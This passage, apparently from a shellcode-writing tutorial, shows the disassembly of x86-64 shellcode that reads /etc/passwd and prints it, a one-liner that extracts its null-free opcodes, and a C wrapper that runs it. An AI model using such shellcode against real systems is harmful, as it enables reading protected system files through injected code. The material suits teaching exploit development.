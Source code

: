 ```bash
  40008a:	04 02                	add    $0x2,%al
  40008c:	48 31 f6             	xor    %rsi,%rsi
  40008f:	0f 05                	syscall 
  400091:	48 89 c7             	mov    %rax,%rdi
  400094:	48 8d 34 24          	lea    (%rsp),%rsi
  400098:	48 31 d2             	xor    %rdx,%rdx
  40009b:	66 ba ff 0f          	mov    $0xfff,%dx
  40009f:	48 31 c0             	xor    %rax,%rax
  4000a2:	0f 05                	syscall 
  4000a4:	48 31 ff             	xor    %rdi,%rdi
  4000a7:	40 b7 01             	mov    $0x1,%dil
  4000aa:	48 89 c2             	mov    %rax,%rdx
  4000ad:	48 31 c0             	xor    %rax,%rax
  4000b0:	b0 01                	mov    $0x1,%al
  4000b2:	0f 05                	syscall 
  4000b4:	48 31 c0             	xor    %rax,%rax
  4000b7:	b0 3c                	mov    $0x3c,%al
  4000b9:	0f 05                	syscall 

00000000004000bb <L1>:
  4000bb:	e8 c2 ff ff ff       	callq  400082 <L2>

00000000004000c0 <file>:
  4000c0:	2f                   	(bad)  
  4000c1:	65 74 63             	gs je  400127 <file+0x67>
  4000c4:	2f                   	(bad)  
  4000c5:	70 61                	jo     400128 <file+0x68>
  4000c7:	73 73                	jae    40013c <file+0x7c>
  4000c9:	77 64                	ja     40012f <file+0x6f>
  4000cb:	41                   	rex.B
```

It might be correct. There is no "00" bytes. Now a little trick to extract the opcode from the binary:

```bash
$ for i in `objdump -d shellcode | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\\\x$i" ; done
\xeb\x39\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x48\x89\xc7\x48\x8d\x34\x24\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\xb7\x01\x48\x89\xc2\x48\x31\xc0\xb0\x01\x0f\x05\x48\x31\xc0\xb0\x3c\x0f\x05\xe8\xc2\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41%
```

We can now test it!
# 5. Demonstration
A little C wrapper to test the shellcode:

```c
#include <stdio.h>
#include <string.h>

char shellcode[] = "\xeb\x39\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x48\x89\xc7\x48\x8d\x34\x24\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\xb7\x01\x48\x89\xc2\x48\x31\xc0\xb0\x01\x0f\x05\x48\x31\xc0\xb0\x3c\x0f\x05\xe8\xc2\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41";

int main(void) {
  printf("Shellcode length: %d\n", strlen(shellcode));
  (*(void (*)()) shellcode)();
  return 0;
}
```
